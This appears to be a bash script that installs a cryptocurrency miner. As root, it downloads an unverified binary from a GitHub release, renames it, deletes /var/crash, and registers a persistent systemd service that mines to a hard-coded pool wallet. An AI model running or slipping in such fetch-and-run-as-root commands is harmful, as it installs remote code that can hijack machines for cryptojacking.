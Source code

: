 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o salvium.miningocean.org:8332 -u SaLvsBrc1ebPv355rrKUa5a2EX1oat7cn5HnCcQjM8RcNdjiPXJ89ax6RCXs3UNEtrWK6K75YKe6y3PATwNHrmHtAASGmR5WCjP -p 1svts -a rx/0 -k -t 16
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
